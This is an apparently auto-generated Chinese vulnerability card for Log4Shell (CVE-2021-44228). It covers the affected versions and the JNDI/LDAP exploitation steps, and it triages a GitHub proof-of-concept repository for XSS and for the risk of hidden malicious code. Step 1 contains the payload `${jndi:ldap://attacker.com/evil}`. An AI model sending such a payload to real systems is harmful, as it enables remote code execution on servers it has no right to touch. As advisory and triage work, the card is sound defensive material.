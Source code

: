 ## CVE-2021-44228 - Apache Log4j2 Log4Shell RCE

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 极高危，可导致完全服务器接管

**影响版本:** 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）

**利用条件:** 目标应用使用了受影响版本的Log4j2，并且允许通过用户可控的输入来记录日志。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，也称为Log4Shell，是Apache Log4j2中的一个严重漏洞。攻击者可以通过向服务器发送特制的字符串，该字符串包含JNDI查找，从而利用此漏洞。当Log4j2尝试记录此字符串时，它会执行JNDI查找，导致服务器从攻击者控制的LDAP服务器下载并执行恶意代码。 

**漏洞利用方式：**

1.  攻击者向目标系统发送包含恶意JNDI查找的请求。例如： `${jndi:ldap://attacker.com/evil}` 
2.  如果目标系统使用受影响的Log4j2版本记录此请求，Log4j2将尝试执行JNDI查找。 
3.  Log4j2连接到攻击者控制的LDAP服务器(`attacker.com`)。 
4.  LDAP服务器返回一个包含恶意Java类的URL。 
5.  Log4j2从该URL下载并执行恶意Java类，导致远程代码执行。 

**POC有效性：**

从提供的`pom.xml`文件可以看出，POC代码使用了`log4j-core`和`log4j-api`的2.14.1版本，该版本受到CVE-2021-44228漏洞的影响。因此，如果部署包含此Log4j2版本的Web应用，则攻击者可以通过发送恶意payload触发漏洞。`forgotpass.java`文件展示了如何从request中获取参数，并将其拼接到输出中，这可能是触发漏洞的点，攻击者可以在username参数中插入恶意payload.

**投毒风险：**

分析提供的代码，`forgotpass.java`看似存在XSS漏洞，该文件只是简单地将用户输入（username）插入到HTML的JavaScript代码中，使其能弹出一个prompt窗口，之后跳转到主页。没有发现明显的用于进行恶意利用的代码，如反弹shell或进行其他类型的远程控制操作。 `log4j.java` 是一个Logger类，没有实际逻辑。 总体而言，仓库中存在隐藏的投毒代码的可能性较低，估计在10%左右。主要考虑到作者可能在LDAP服务器上部署恶意java文件，从而进行投毒。需要更深入的分析才能确定是否存在更隐蔽的投毒行为。

**项目地址:** [Fauzan-Aldi/Log4j-_Vulnerability](https://github.com/Fauzan-Aldi/Log4j-_Vulnerability)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)